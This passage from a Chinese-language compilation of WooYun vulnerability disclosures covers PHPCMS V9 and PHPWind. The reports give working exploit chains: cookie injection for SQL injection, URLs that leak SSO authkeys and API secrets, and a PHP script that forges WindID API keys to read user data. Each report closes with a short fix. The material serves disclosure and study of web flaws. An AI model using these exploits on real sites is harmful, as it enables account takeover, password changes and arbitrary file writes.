        $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);

        $s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;

        $var = pc_base::load_config('system','cookie_pre').$var;

        $_COOKIE[$var] = $value;

        if (is_array($value)) {

            foreach($value as $k=>$v) {

                setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);

            }

        } else {

            setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);  //cookie 加密了，而且方法很给力,sys_auth 是有 auth_key 的，基本上可以说破解这个值不容易

        }

    }

......

    public static function get_cookie($var, $default = '') {

        $var = pc_base::load_config('system','cookie_pre').$var;

        return isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default; //这里是解密方法，咱也用不上

    } 
```



看来想自己更改 cookie 值很难，不知道加密的 auth_key 值嘛，可是...如果利用一个能 set_cookie($value)的点，并且咱们能控制$value 呐？这个点自然是有的～

```php
/phpcms/phpcms/modules/attachment/attachments.php 228 行起

    public function swfupload_json() {

        $arr['aid'] = intval($_GET['aid']);  //这个不行,intval 了

        $arr['src'] = trim($_GET['src']); //这个可以,虽然$_GET 会 addslashes，但下面的 json_encode 会帮上忙（此时' => \'，这里是一个反斜线 ）

        $arr['filename'] = urlencode($_GET['filename']); //这个不行,urlencode 了

        $json_str = json_encode($arr); (此时 \' => \\' 这里是两个反斜线)所以单引号可以用了

        $att_arr_exist = param::get_cookie('att_json');

        $att_arr_exist_tmp = explode('||', $att_arr_exist);

        if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {

            return true;

        } else {

            $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;

            param::set_cookie('att_json',$json_str); //这里

            return true;            

        }

    } 
```

## 漏洞证明

1.在 COOKIE att_json 为空时（当然可以手动清空），访问以下链接生成 att_json

[`localhost/test/phpcms/index.php?m=attachment&c=attachments&a=swfupload_json&src=1%27&filename=a%27`](http://localhost/test/phpcms/index.php?m=attachment&c=attachments&a=swfupload_json&src=1%27&filename=a%27) （当然，你可以干点别的）

2.提交在线充值时，更改 COOKIE trade_sn 为 att_json 的值





## 修复方案

对$trade_sn 进行 addslashes

# WooYun-2014-72727：一个 PHPWIND 可拿 shell 的高危漏洞

漏洞作者： [Map](http://www.wooyun.org/whitehats/Map)

来源：[`www.wooyun.org/bugs/wooyun-2014-072727`](http://www.wooyun.org/bugs/wooyun-2014-072727)

## 简要描述

如题。

## 详细说明

没想到 PHPWIND 犯了一个和 PHPCMS 一样的漏洞。

在 src/applications/windidserver/api/controller/AppController.php 内代码：

```php
public function listAction() {

        $result = $this->_getAppDs()->getList();

        $this->output($result);

    } 
```

如何获取可以访问接口的 key？

查看用户上传头像页面就可以知道了：

/phpwind/src/windid/service/user/srv/WindidUserService.php

内的代码：

```php
$key = WindidUtility::appKey($appId, $time, $appKey, array('uid'=>$uid, 'type'=>'flash'), array('uid'=>'undefined'));

…… 
```

去头像页面查看一下源文件

[`localhost/phpwind/index.php?m=profile&c=avatar&_left=avatar`](http://localhost/phpwind/index.php?m=profile&c=avatar&_left=avatar)



解出 urldecode 得：

[`localhost/phpwind/windid/index.php?m=api&c=avatar&a=doAvatar&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418`](http://localhost/phpwind/windid/index.php?m=api&c=avatar&a=doAvatar&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418)

去掉

&avatar=[`localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418`](http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418)

然后记得，还需要 POST 一个 uid 等于 undefined

把 doAvatar 换成 list,avatar 换成 app 得：

[`localhost/phpwind/windid/index.php?m=api&c=app&a=list&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash`](http://localhost/phpwind/windid/index.php?m=api&c=app&a=list&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash)

POST：uid=undefined

得：

{"1":{"id":"1","name":"phpwind9.0","siteurl":"http:\/\/localhost\/phpwind","siteip":"","secretkey":"73e3dcdd733c7c3733c17273a624e162","apifile":"windid.php","charset":"gbk","issyn":"1","isnotify":"1"}}



拿到这个 key，我可以做的事情太多了，用户体系内的所有事情我都可以做了。

## 漏洞证明


拿到这个 key，我可以做的事情太多了，用户体系内的所有事情我都可以做了。

在官网测试了一下，拿到 key 后测试一下读取一个用户的资料：

```php
<?php

$secretkey = '308c6c43a*****279dd61dd80e8d59bd';

$c = 'user';

$a = 'get';

$data = array('uid'=>'658925');

$time = time();

$key = appKey('1', time(), $secretkey, array('userid'=>658925), $data);

echo post('http://**.**.**.**/windid/index.php?m=api&c='.$c.'&a='.$a.'&windidkey='.$key.'&time='.$time .'&clientid=1&userid=658925',$data);

function post($uri,$data) {

    $ch = curl_init ();

    curl_setopt ( $ch, CURLOPT_URL, $uri );

    curl_setopt ( $ch, CURLOPT_POST, 1 );

    curl_setopt ( $ch, CURLOPT_HEADER, 0 );

    curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, 1 );

    curl_setopt ( $ch, CURLOPT_POSTFIELDS, $data );

    $return = curl_exec ( $ch );

    curl_close ( $ch );

    return $return;

}

function appKey($apiId, $time, $secretkey, $get, $post) {

    $array = array('m', 'c', 'a', 'windidkey', 'clientid', 'time', '_json', 'jcallback', 'csrf_token', 'Filename', 'Upload', 'token');

    $str = '';

    ksort($get);

    ksort($post);

    foreach ($get AS $k=>$v) {

        if (in_array($k, $array)) continue;

        $str .=$k.$v;

    }

    foreach ($post AS $k=>$v) {

        if (in_array($k, $array)) continue;

        $str .=$k.$v;

    }

    return md5(md5($apiId.'||'.$secretkey).$time.$str);

}

?> 
```



{"uid":"658925","username":"phpwind","email":"fengyu@**.**.**.**","safecv":"5b4111de","regdate":"1143101940","regip":""}

在 User 的 api 内还有一个 edit 的接口，可以修改任意用户的密码，调用它，不填写 old_password，将可以修改任意用户的密码，不会验证原密码的。

## 修复方案

不要轻信 key，可以将 m，a，c 都加入 key 的运算。

# WooYun-2014-66394：PHPCMS V9 一个为所欲为的漏洞

漏洞作者： [Map](http://www.wooyun.org/whitehats/Map)

来源：[`www.wooyun.org/bugs/wooyun-2014-066394`](http://www.wooyun.org/bugs/wooyun-2014-066394)

## 简要描述

不知道怎么形容这个漏洞，反正大部分情况下可以做的事情很多了。

官网注册不上，所以无法官网演示。

## 详细说明

安装 phpcms 的时候会强制安装它的通行证。

phpcms/phpsso_server/phpcms/modules/phpsso/index.php 里有一段很可怕的代码

```php
/**

     * 获取应用列表

     */

    public function getapplist() {

        $applist = getcache('applist', 'admin');

        exit(serialize($applist));

    } 
```

cache 里是什么内容呢，我们自己去看一下文件：

```php
<?php

return array (

  1 => 

  array (

    'appid' => '1',

    'type' => 'phpcms_v9',

    'name' => 'phpcms v9',

    'url' => 'http://localhost:8038/study/phpcms/',

    'authkey' => 'L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr',

    'ip' => '',

    'apifilename' => 'api.php?op=phpsso',

    'charset' => 'gbk',

    'synlogin' => '1',

  ),

);

?> 
```

所以只要我们调用 phpsso 并且能走到这个方法里，就会突出 sso 配置的客户端的所有信息，包括 authkey。

查看通行证代码发现，只要$_POST['data']可以解出来，就可以走下去。

```php
if(isset($_GET) && is_array($_GET) && count($_GET) > 0) {

            foreach($_GET as $k=>$v) {

                if(!in_array($k, array('m','c','a'))) {

                    $_POST[$k] = $v;

                }

            }

        } 
```

GET 全付给 POST

```php
if(isset($_POST['data'])) {

            parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);

            if(empty($this->data) || !is_array($this->data)) {

                exit('0');

            }

        } else {

            exit('0');

        } 
```

ok，我们怎么拿到这个$_POST['data']，用户上传头像的页面里就有。

注册登录后访问

[`localhost:8038/study/phpcms/index.php?m=member&c=index&a=account_manage_avatar&t=1`](http://localhost:8038/study/phpcms/index.php?m=member&c=index&a=account_manage_avatar&t=1)

查看源文件：



拿到这个：

aHR0cDovL2xvY2FsaG9zdDo4MDM4L3N0dWR5L3BocGNtcy9waHBzc29fc2VydmVyL2luZGV4LnBocD9tPXBocHNzbyZjPWluZGV4JmE9dXBsb2FkYXZhdGFyJmF1dGhfZGF0YT12PTEmYXBwaWQ9MSZkYXRhPWU1YzJWQU1HVVFaUkFRa0lVUVFLVndGVUFnSUNWZ0FJQWxkVkJRRkREUVZjVjBNVVFHa0FReFZaWmxNRUdBOSUyQkRqWm9LMUFIUm1Vd0JHY09YVzVVRGdRaEpEeGFlUVZuR0FkeFZSY0tRQQ==

解除 base64_decode 编码得

[`localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`](http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA)

将 url 里的 uploadavatar 换成：getapplist 得：

[`localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`](http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA)

访问得：

a:1:{i:1;a:9:{s:5:"appid";s:1:"1";s:4:"type";s:9:"phpcms_v9";s:4:"name";s:9:"phpcms v9";s:3:"url";s:35:"[`localhost:8038/study/phpcms/";s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr";s:2:"ip";s:0:"";s:11:"apifilename";s:17:"api.php?op=phpsso";s:7:"charset";s:3:"gbk";s:8:"synlogin";s:1:"1";}}`](http://localhost:8038/study/phpcms/";s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr";s:2:"ip";s:0:"";s:11:"apifilename";s:17:"api.php?op=phpsso";s:7:"charset";s:3:"gbk";s:8:"synlogin";s:1:"1";}})

和我们想的一样，authkey 在里面：

s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr"

拿到这个 key 已经可以想做什么想什么了，sso 体系里的东西都可以做了。

```php
解密出来的东西不受控制，可以包含 null 截断，也可以包含单双引号 
```

举个例子：

/phpcms/phpsso_server/phpcms/modules/phpsso/index.php

内：

public function uploadavatar()

写的

$this->uid = $this->data['uid']; //uid 来自解密出来的 uid

$this->avatardata = $this->data['avatardata']; //数据内容来自解密出来的数据内容

……

$dir = $avatarfile.$dir1.'/'.$dir2.'/'.$this->uid.'/';

//目录名里引用了来自解密内容的 uid

……

$filename = $dir.'180x180.jpg';

//文件名又来自引用了解密 uid 内容的$dir 变量

$fp = fopen($filename, 'w');

fwrite($fp, $this->avatardata);

fclose($fp);

文件写入了，反正是想做什么做什么。

## 漏洞证明

如上。

## 修复方案

不要过分信任自己的加密解密机制，要小心处理每个过程。